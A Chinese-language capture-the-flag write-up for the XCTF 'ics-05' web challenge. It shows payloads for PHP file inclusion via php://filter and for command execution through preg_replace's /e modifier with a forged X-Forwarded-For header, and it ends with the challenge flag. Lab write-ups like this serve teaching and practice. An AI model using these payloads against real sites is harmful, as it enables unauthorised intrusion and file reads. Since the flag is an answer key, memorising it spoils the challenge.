


# ics-05

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=514e11dd-7392-488f-add8-1a919f7607cb_2)

场景虽然看起来很高级，但其实只有一个地方可以点，也是描述中提到的——设备维护中心。想必漏洞只能在里面了。


但是你会发现这里也就是个空壳页面，根本没有一个地方有交互，不过检查元素发现了一个可疑的地方。



这里是利用get传参的方式获取到页面，而像这种动态包含就很有可能是文件包含漏洞。至于包含什么文件，可以利用一个php的伪协议。

- ### php://filter
- > 该协议的参数会在该协议路径上进行传递，多个参数都可以在同一个路径上传递
｜参数  ｜描述｜
｜------｜------
｜resource=<要过滤的数据流>｜必须项。指定了要筛选过滤的数据流。|
|read=<读链的过滤器>|可选项。可以设定一个或多个过滤器名称，以管道符（|）分隔|
|write=<写链的筛选列表>|可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。|
|<；两个链的筛选列表>|任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。|

是不是看起来很模糊，不知道在干啥？这里只需要记住一个最常见的用法就行了。

- php://filter/read=convert.base64-encode/resource=\[文件名]

这里使用的过滤器为convert.base64-encode，作用等同与将读取文件的内容以base64编码形式输出。这么做的原因是php代码如果直接读取会被执行，反而没有输出了。编码后就可以顺利输出了。

- /index.php?page=php://filter/read=convert.base64-encode/resource=index.php

解码后的输出如下：

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
        //监听导航点击
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {


if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}


//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}


?>

</body>

</html>

```

重要的东西在总是在最后。

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

- ### $_SERVER
- > 一个包含了诸如头信息(header)、路径(path)、以及脚本位置(script locations)等等信息的数组。

那HTTP_X_FORWARDED_FOR很明显就是取出头部信息的HTTP_X_FORWARDED_FOR字段值。HTTP_X_FORWARDED_FOR我们可以自己伪造，所以不是大问题。重中之重在下面的preg_replace()函数。

- ### preg_replace
- > 执行一个正则表达式的搜索和替换。
- > 语法：mixed preg_replace ( mixed \$pattern , mixed \$replacement , mixed \$subject [, int \$limit = -1 [, int &$count ]] ),搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。
- 参数：
- > $pattern: 要搜索的模式，可以是字符串或一个字符串数组。
- > $replacement: 用于替换的字符串或字符串数组。
- > $subject: 要搜索替换的目标字符串或字符串数组。
- > $limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
- > $count: 可选，为替换执行的次数。
- 返回值：如果 subject 是一个数组， preg_replace() 返回一个数组， 其他情况下返回一个字符串。如果匹配被查找到，替换后的 subject 被返回，其他情况下 返回没有改变的 subject。如果发生错误，返回 NULL。

光看这个还不足以让我们找到漏洞点。仔细看会发现preg_replace()的所有参数都可以由我们自由控制，而安全的准则之一就是不要相信用户的输入。既然和正则有关系，那么正则有没有什么比较特殊的选项呢？

- ### /e
- > 使 preg_replace() 将 replacement 参数当作 PHP 代码（在替换完成之后）执行。要确保  replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。

这就是我们想要的了，执行任意命令。很容易就可以构建出payload。

- /index.php?pat=/flag/e&rep=system("ls")&sub=flag



我就用burpsuite了，比较方便。注意X-Forwarded-For记得开头全部大写。从response中可以发现s3chahahaDir这个文件夹很可疑。继续执行命令。

- /index.php?pat=/flag/e&rep=system("ls+s3chahahaDir")&sub=flag

发现flag文件夹。继续往下。使用+号代替空格的原因是符合url编码。

- /index.php?pat=/flag/e&rep=system("ls+s3chahahaDir/flag")&sub=flag

发现flag.php。直接cat就能拿到flag了。

- /index.php?pat=/flag/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=flag

- ### Flag
- > cyberpeace{96c585a509c100a7a043fb7f9d4ea085}

